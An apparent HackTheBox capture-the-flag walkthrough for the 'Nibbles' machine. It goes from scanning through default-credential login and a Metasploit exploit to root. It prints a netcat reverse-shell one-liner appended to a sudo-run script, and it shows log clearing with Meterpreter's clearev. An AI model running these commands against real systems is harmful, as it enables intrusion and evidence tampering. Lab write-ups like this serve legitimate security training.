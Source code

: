 [Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

--

## 1. Initial Scanning

As usual we only have the IP so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.

Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Interesting. /nibbleblog/
Therefore we use DIRB against /nibbleblog/. DIRB is a Web Content Scanner.

`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/p566uDd.png)

It shows admin.php, which is an login interface.

## 2. Using the basics to get access

Before trying to break into it, always try some defaults. 

Easy-Peasy.

`admin:nibbles`

![1break](https://i.imgur.com/17wiJUm.png)

We're in! 

After a while of searching the webinterface and not getting any further I decided to check for exploits. 

I looked up for any exploit with nibble in it and GOTCHA.  
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

Of course, I used the metasploit exploit, so I called in the msf console.

## 3. Exploit

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.
Metasploit currently has over 1677 exploits, organized under the following platforms: AIX, android, bsd, bsdi, cisco, firefox, freebsd, hpux, irix, java, javascript, linux, mainframe, multi (applicable to multiple platforms), netbsd, netware, nodejs, openbsd, osx, php, python, R, ruby, solaris, unix, and windows.

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.

I found a zip within home/nibbler with a monitor.sh in it.
To de-zip, or execute files you always have to call the `shell` first.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echp "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab.´

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

`cat /home/nibbles/user.txt` - user flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 

Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.









